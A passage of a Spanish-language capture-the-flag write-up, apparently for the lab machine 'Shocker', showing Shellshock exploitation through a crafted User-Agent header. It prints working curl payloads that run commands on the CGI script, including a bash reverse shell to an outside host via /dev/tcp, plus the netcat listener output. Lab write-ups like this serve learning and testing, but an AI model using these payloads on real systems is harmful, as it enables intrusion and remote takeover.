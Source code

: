 ¡Nuestro objetivo es vulnerable! Así que es momento de explotar.

## EXPLOTACIÓN
  
Básicamente la explotación de `shell shock` se da en la modificación del `User-Agent` al momento de enviar una petición web, esta cabecera se envía de la siguiente manera `User-Agent: () { :; };echo;echo; <COMMAND>`, siendo <COMMAND> el comando que deseamos ejecutar remotamente.
  
```bash
   ❯ curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /usr/bin/whoami"
  
  shelly
```

Una vez podemos evidenciar que tenemos ejecución remota de comandos, procedemos a entablar una reverse shell por medio de un oneliner de `bash`.

```bash
  ❯ curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.14.4/4564 0>&1"
```

Nos ponemos en escucha por el puerto de la reverse shell y tenemos acceso con el usuario `shelly`.

```bash
  ❯ nc -lvnp 4564
  listening on [any] 4564 ...
  connect to [10.10.14.4] from (UNKNOWN) [10.10.10.56] 50738
  bash: no job control in this shell
  shelly@Shocker:/usr/lib/cgi-bin$ whoami
  whoami
  shelly
```

<p align="center">
<img src="/assets/images/shocker/04-intrusion.png">       
</p>
